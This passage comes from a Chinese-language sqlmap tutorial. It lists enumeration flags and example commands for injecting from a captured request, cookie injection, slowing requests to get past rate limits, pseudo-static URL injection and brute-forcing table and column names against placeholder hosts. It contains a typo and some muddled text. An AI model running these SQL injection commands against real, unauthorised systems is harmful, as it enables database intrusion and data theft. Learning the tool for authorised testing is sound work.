 ```sh
    
-D DB					#指定要枚举的 DBMS 数据库
-T TBL					#指定要枚举的 DBMS 数据表
-C COL					#指定要枚举的 DBMS 数据列
    
--sql-query=QUERY		#指定要执行的 SQL 语句
--sql-shell				#调出交互式 SQL shell
```

### 用例

#### 指定数据包注入

- 从文件读取HTTP请求，GET和POST都可以

`sqlmap -r "burp.txt" -p "username"	#-p 指定存在注入的参数`

这里的 txt 文件就是完整的 http 请求包，可以使用 -p 指定参数，也可以在 txt 文件中使用 *（星号）定位，特别是注入点后需要使用闭合语句的情况下

- Cookie注入

`sqlmap -u "http://www.vuln.com" --cookie "id=11" --level 2`

- 当防火墙对请求速度做了限制

```
sqlmap -u "http://www.vuln.com/post.php?id=1" --delay=10

# 在每个HTTP请求之间的延迟10秒
```



#### 伪静态注入

`sqpmap  -u http://victim.com/id/666*.html --dbs  #在html扩展名前加个'*'`

暴力破解
当数据库为以下情况时，需要暴力破解表名和列名

- DBMS（Database Management System，数据库管理系统）是 < 5.0 版本的 MySQL，它们不具备 information_schema
- DBMS 是微软的 Access 数据库，并且其中的系统表 MSysObjects 默认设置不可读
- 当前会话用户对 DBMS 中存储数据表定义的系统表没有读权限

**暴力破解表名**

只要开启了 `--common-tables`，sqlmap 仍然可以识别出部分系统数据表。sqlmap 会尝试对系统表进行暴力破解，试图找出 DBMS 中存在的常见数据表，常见的数据表名列表存储在 `txt/common-tables.txt`，支持用户进行任意修改

```sh
python sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --common-tables -D testdb
```

#### 暴力破解列名

开启了 --columns 开关，sqlmap 则会提示你是否使用暴力破解技术。因而，就算出现上面两个场景之一，只要你开启了 --common-columns，sqlmap 仍然可以识别出部分系统数据表。sqlmap 会尝试对系统表进行暴力破解，试图找出 DBMS 中存在的常见数据表列名，常见的数据表名列表存储在 txt/common-columns.txt，支持用户进行任意修改

#### 文件操作
